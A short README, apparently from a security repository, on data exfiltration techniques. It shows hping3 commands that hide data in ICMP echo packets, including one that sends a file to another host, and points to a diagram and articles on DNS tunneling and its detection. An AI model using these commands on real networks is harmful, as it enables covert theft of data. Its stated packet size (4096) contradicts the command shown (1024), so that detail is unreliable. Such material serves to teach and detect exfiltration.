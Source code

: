 # Techniques to exfiltrate data

## ICMP echo request

Ping operates by sending Internet Control Message Protocol (ICMP) echo reqtest packets to the rarget host and waiting for an ICMP echo replay!

The following command will send a ping request with the size of 4096:

```
$ ping 127.0.0.1 -s 1024
```

The payload of 4096 is junk **until** you add your own payload:

```
$ sudo hping3 127.0.0.1 -1 --sign="Hello world!"
```

or even send a file:

```
$ sudo hping3 192.168.179.131 -1 --file send.txt --data 100
```

## DNS protocol

An image worth a thousand words...

![DNS Data Exfiltration](docs/dns_data_exfiltration.png)


## Resources: 

  * https://www.sans.org/reading-room/whitepapers/dns/detecting-dns-tunneling-34152
  *https://community.infoblox.com/t5/Community-Blog/DNS-Data-Exfiltration-How-it-works/ba-p/3664